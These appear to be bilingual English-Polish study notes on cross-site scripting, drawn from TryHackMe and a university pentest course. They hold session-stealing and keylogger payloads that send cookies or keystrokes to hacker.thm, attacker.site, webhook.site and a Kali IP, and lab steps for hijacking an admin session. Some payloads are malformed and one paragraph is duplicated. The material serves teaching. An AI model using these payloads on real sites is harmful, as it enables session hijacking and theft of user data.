




# Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) is an injection attack where malicious JavaScript is injected into a web application to be executed by other users.  

## XSS payload
In XSS, a payload is the JavaScript code intended to execute on a target's device. A payload consists of two parts: **the intention (what the code does)** and **the modification (adapting the code to execute in specific scenarios)**.  
Examples of payload intentions include:

**Proof of Concept**:  
Demonstrating XSS by triggering a simple action, like an alert box.  
Example: `<script>alert('XSS');</script>`  

**Session Stealing**:  
Extracting and sending a user's session cookies to the attacker, allowing session hijacking.  
Example: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

**Key Logger**:  
Logging keystrokes and sending them to the attacker’s server.  
Example: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key));}</script>` 

**Business Logic**:  
Exploiting specific functions, like changing a user's email to an attacker's address.  
Example: `<script>user.changeEmail('attacker@hacker.thm');</script>`  
___
## Reflected XSS
**Reflected XSS** occurs when user-supplied data in an HTTP request is included in a webpage's source code without proper validation.  
Reflected XSS – serwer otrzymuje zapytanie ze złośliwymi danymi, które są następnie „odbijane” na stronie. Jest to prostsza wariacja podatności XSS, jednak częściej wymaga wykonania dodatkowej akcji przez ofiarę – np. kliknięcia w odpowiednio spreparowany link.  
Złośliwe dane mogą przybrać formę parametrów GET/POST lub nagłówków zapytania i mogą być odbite np. w:  
- Wiadomości o błędzie  
- Wyniku wyszukiwania  
- Filtrach wyszukiwania

Example:  
A website that displays error messages directly from the query string without checking its content.  
`https://website.com/?error=Invalid Input Dettected`
```
<div class="alert alert-danger">
    <p>Invalid Input Detected</p>
</div>
```
`https://website.com/?error=<script src=<script src="https://attacker.thm/evil.js"></script>`
```
<div class="alert alert-danger">
    <p><script src="https://attacker.thm/evil.js"></script></p>
</div>
```
Attackers can send malicious links or embed them in iframes to execute JavaScript in victims' browsers, potentially stealing session data or sensitive information.  

Testing for Reflected XSS:  
Test all potential entry points:  
- URL query parameters
- URL file paths
- (Occasionally) HTTP headers
Identify reflected data and verify if a JavaScript payload can execute.  
Payload success depends on where the code is reflected in the application.  
___
## Stored XSS
**Stored XSS** involves storing the malicious payload (e.g., in a database) on the web application. The payload is executed when other users visit the affected page.  
Stored XSS występuje, gdy złośliwe dane są przechowywane w aplikacji webowej (np. w bazie danych) i są wyświetlane każdemu użytkownikowi, który odwiedzi zasób ze wstrzykniętym kodem.  

Example:  
A blog website allows users to post comments but doesn't filter out malicious JavaScript. A comment with JavaScript gets stored in the database, and every visitor triggers the script in their browser.  

Potential Impact:  
- Redirecting users to malicious sites.  
- Stealing session cookies.  
- Performing actions on the site as the affected user.  

Testing for Stored XSS:  
Identify entry points where user data is stored and displayed to others:  
- Blog comments.  
- User profile fields.  
- Website listings.  
- Bypass client-side protections by manipulating requests (e.g., sending unexpected data like JavaScript instead of an integer in an input field).  

- Confirm if your JavaScript payload executes, considering where it is reflected in the application.
___
## DOM Based XSS
The **DOM (Document Object Model)** is a programming interface for HTML and XML documents that allows the structure, style, and content of a webpage to be modified programmatically.  
DOM XSS jest rodzajem XSS’a który jest wykonywany całkowicie po stronie klienta aplikacji (najczęściej za pośrednictwem kodu JavaScript). Złośliwy kod jest wstrzykiwany w DOM (Document Object Model) strony, bez kontaktu z serwerem.  
Jest to bardziej zaawansowana metoda Cross-Site Scripting, która często wymaga analizowania ścieżek wejścia użytkownika w źródłach kodu JavaScript.  
**DOM-Based XSS** occurs when JavaScript in the browser executes malicious input directly, without involving backend interactions or page reloads.  
DOM-based XSS occurs entirely within the user's browser, without involving server-side processing. It manipulates the browser’s Document Object Model (DOM) to execute malicious scripts, making it harder to detect and exploit due to modern browser security improvements.
How DOM-Based XSS Works:  
- Attackers inject malicious code into client-side scripts (e.g., via URL parameters).  
- The browser processes and executes the payload without server involvement.  


**DOM-Based XSS** polegają na wstrzyknięciu złośliwego JavaScriptu do strony internetowej poprzez fragment URI.  
Adres URL:  
```
https://hacksplaining.com/glossary/urls?ref=google&top=Y#details
|    |                  |              |                |      |
  |          |                 |                |          |
  |        domena            ścieżka            |      fragment URI
protokół                                   ciąg zapytania

```
Fragment URI jest opcjonalną częścią adresu URL, znajdującą się za znakiem `#`. Przeglądarki wykorzystują fragmenty URI do wewnętrznej nawigacji po stronie - jeśli na stronie znajduje się znacznik HTML-a, którego atrybut id pasuje do fragmentu URI, przeglądarka po wyświetleniu strony przewinie jej treść do tego znacznika.  
Umożłiwia to odwoływanie się bezpośrednio doróżnych sekcji na stroie.
Example:  
A website uses window.location.hash to display content on the page. If the hash's content isn’t validated, attackers can inject JavaScript, which runs in the victim’s browser.

Potential Impact:  
- Redirecting users to malicious websites.  
- Stealing session data or sensitive content from the page.  

Testing for Stored XSS:  
- Analyze the JavaScript source code for controllable variables (e.g., window.location.x parameters).  
- Check if these variables are written to the DOM or used in unsafe methods like eval().  
- Use crafted payloads to confirm if malicious JavaScript can execute.  
___
## Blind XSS
**Blind XSS** is similar to Stored XSS, but the attacker cannot see the payload execution or test it directly.  
Blind XSS jest wariacją stored XSS. Następuje gdy złośliwy kod atakującego jest zapisywany na serwerze i przesyłany do systemów wewnętrznych ofiary. „Blind” bierze się z faktu, że atakujący nie ma dostępu do przekazanego w ten sposób payload’u.  
Przykładem takiej podatności mogą być formularze z opinią, które są następnie wyświetlane przez pracowników w aplikacji wewnętrznej danej organizacji.  
Blind XSS jest znacznie trudniejszy w wykrywaniu ze względu na ograniczoną widoczność. Pomocne w poszukiwaniu tego typu podatności są takie strony jak https://webhook.site/  
Example:  
A website's contact form accepts messages that are converted into support tickets for staff. If the form doesn't validate inputs, an attacker can inject malicious JavaScript, which staff unknowingly execute in their private portal.  

Potential Impact:  
- Reveal the staff portal URL.  
- Capture staff members' cookies.  
- Extract contents of the portal page. This could allow session hijacking and access to the private portal.  

Testing for Blind XSS:  
- Ensure your payload includes a callback (e.g., an HTTP request) to confirm execution.  
- Tools like [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express) can automatically capture details such as cookies, URLs, and page content, simplifying detection and exploitation.
___
## XSS przez upload plików
Jeśli aplikacja posiada funkcję uploadu’u plików, otwiera to okno na kolejne potencjalne możliwości wykonania XSS.  
Jednym z ciekawszych przykładów jest upload zdjęcia w formacie SVG. SVG stanowi format graficzny bazujący na tagach XML. Oznacza to, że możemy zamieścić kod bezpośrednio w treści obrazu:  
```svg
<svg xmlns="http://www.w3.org/2000/svg">
    <script>alert(document.domain)</script>
</svg>
```
Oczywiście jest to tylko jeden z przykładów. Inną metodą jest zamieszczanie kodu w treści komentarza obrazu w formacie JPG lub PNG, np. przy użyciu narzędzia exfitool:  
`exiftool -Comment="<script>alert()<script>" xss.png`  
Oczywiście jest to tylko jeden z przykładów. Inną metodą jest zamieszczanie kodu w treści komentarza zdjęcia w formacie JPG lub PNG, np. przy użyciu narzędzia exiftool:  
`exiftool -Comment="<script>alert()</script>" xss.png`  
___
## Self-XSS
Rodzaj podatności XSS, w której ofiara atakuje „samą siebie”, np. przez skopiowanie i wklejenie payload’u. W praktyce taki atak jest mało prawdopodobny, gdyż atakujący musi dotrzeć do docelowej ofiary i nakłonić ją do wykonania złośliwego kodu.  
___
## Podstawowa metodologia




Podczas testów funkcja `alert()` stanowi książkowy przykład pokazania istnienia podatności z prostego powodu – jest to bardzo prosta metoda do udowodnienia wykonania kodu JavaScript.  
Warto jednak wziąć pod uwagę, że kod może zostać wykonany w kontekście innej strony, np. kiedy część zawartości na stronie jest osadzona w tagu `<iframe>`.  
Ważne jest sprawdzenie w jakim kontekście wykonana nasza podatność XSS przed jej zgłoszeniem, gdyż może ona dotyczyć zupełnie innego podmiotu. W tym celu często stosuje się payloady:  
```
img src=x onerror=alert(window.origin)>
img src=x onerror=alert(document.domain)>
```
które pokazują w jakim kontekście wykonywany jest nasz skrypt.
___
## Eksploatacja
Poniższy skrypt wysyła zapytanie pod adres webhook.site wraz z plikami cookies ofiary w parametrze „cookie”.  
``` 
<script>
 new Image().src='https://webhook.site/90799f2d-65fc
4843-9bf2-687b9369dc71?cookie='+document.cookie;
 </script>
```
Inne metody kradzieży plików cookies:  
```
<script>
new Image().src='http://attacker.site:8888/?cookie='+document.cookie;
</script>
 

 
<style/onload=navigator.sendBeacon('http://attacker.site/steal'
,document.body.innerHTML)
```
___
## Ćwiczenia studia
### Stored XSS - HTML
Wejdź na stronę: http://192.168.100.11/  
Na stronie dostępny jest formularz do zostawiania wiadomości, które zapisywane są na serwerze i wyświetlane wszystkim użytkownikom.  
**Celem zadania jest wstrzyknięcie dowolnego pokreślonego tekstu HTML (<u>) w wiadomości!**  
Przykład:
`<u>PJATK</u>`  

### Stored XSS - JavaScript
Wejdź na stronę: http://192.168.100.11/  
**Celem zadania jest wstrzyknięcie kodu Javascript (tag <script>...</script>) wyświetlającego alert!**  
Przykład:  
`<script>alert('XSS')</script>`

### Stored XSS - document.cookie
Wejdź na stronę: http://192.168.100.11/  
**Celem zadania jest wstrzyknięcie kodu Javascript (tag <script>...</script>) wyświetlającego ciasteczka za pomocą funkcji alert!**  
Przykład:
`<script>alert(document.cookie)</script>`  
Zauważ, że w przeciwieństwie do Stored XSS, payload jest widoczny tylko wtedy, gdy zostanie przesłany w zapytaniu!  



### DOM-based XSS
Wejdź na stronę: http://192.168.100.11/dom/
Tym razem dane od użytkownika NIE SĄ wyświetlane bezpośrednio w źródle strony, tylko generowane dynamicznie za pomocą właściwości **innerHTML**.  
**Celem zadanie jest wstrzyknięcie kodu Javascript (event onerror w tagu ) wyświetlającego ciasteczka**   
**Uwaga: Właściwość innerHTML blokuje za pomocą funkcji alert! wykonanie kodu w tagach <script>…</script>!**  
Przykład (nieistniejący obrazek powodujący wykonanie kodu):  
``

Zauważ, że payload NIE MUSI zostać wyświetlony w odpowiedzi HTTP (źródle strony), aby atak zadziałał.  



### Reflected XSS
Wejdź na stronę: http://192.168.100.11/reflected/  
Tym razem dane użytkownika przesłane w zapytaniu nie są zapisywane na serwerze, tylko jednorazowo „odbijane” w odpowiedzi (źródle strony).  
**Celem zadania jest wstrzyknięcie kodu Javascript (tag <script>...</script>) wyświetlającego ciasteczka za pomocą funkcji alert!**  
Przykład:
`<script>alert(document.cookie)</script>`

## Ćwiczenia studia Pentest
### Logi admina
Na stronie http://192.168.100.61/ znajduje się panel logowania, do którego nie znamy i nie poznamy prawidłowego hasła.  
Możliwe natomiast będzie zdobycie identyfikatora sesji administratora i zalogowanie się bez hasła!  
Pierwszym celem zadania jest uruchomienie dowolnego narzędzia do enumeracji i wyenumerowanie dostępnych katalogów na stronie: http://192.168.100.61/  
Przykład:  
`gobuster dir-u http://192.168.100.61/-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt`  

### XSS
Celem zadania jest znalezienie podatności XSS w nazwie użytkownika wyświetlanej w logach i wstrzyknięciu tam dowolnego tagu HTML.  
Przykład:  
```
Username: <u>XSS
Password: abc
```

### Kradzież ciastka
Celem zadania jest poznanie identyfikatora sesji Administratora, który przechowywany jest w ciastku o nazwie PHPSESSID:  
1) Uruchom serwer http na Kali (`python3-m http.server 80`).  
2) Wstrzyknij jako nazwę użytkownika kod Javascript, który wykona przekierowanie do Kali i doklei ciastka aktualnie zalogowanego użytkownika (każdego, który wyświetli logi z dopisanym skryptem XSS) do URL.  
Przykład:  
```
Username: <script>location.href="http://10.65.0.6/"+escape(document.cookie)</script>
Password: abc
```
Do maksymalnie jednej minuty, na Twój serwer powinna zostać przekierowana przeglądarka Administratora i jego ciastko z ID sesji doklejone w URL.  

### Flaga admina
Identyfikator sesji Administratora można wykorzystać, aby zalogować się na stronę bez znajomości hasła!  
Celem zadania jest podmiana identyfikatora sesji w ciastku (PHPSESSID) na wykradziony za pomocą ataku XSS.  
Po odświeżeniu strony odczytaj flagę i wklej ją w formularzu.  
Przypomnienie:  
Dostęp do edycji cookies na Firefox: `F12-> Storage-> Cookie`  
Dostęp do edycji cookies na Chrome: `F12-> Application-> Cookies`
___
## Dodatkowe informacje
[XSS „cheat sheet”](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)  
[Rodzaje XSS](https://www.esecurityplanet.com/networks/cross-site-scripting-xss/)  
## Sources
- tryhackme, Intro to Cross-site Scripting, https://tryhackme.com/r/room/xss.  
- tryhackme, XSS, https://tryhackme.com/r/room/axss.  
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.  
- Podatności Cross-siteScripting, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.  
- Podatności Cross-siteScripting Pentest, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.  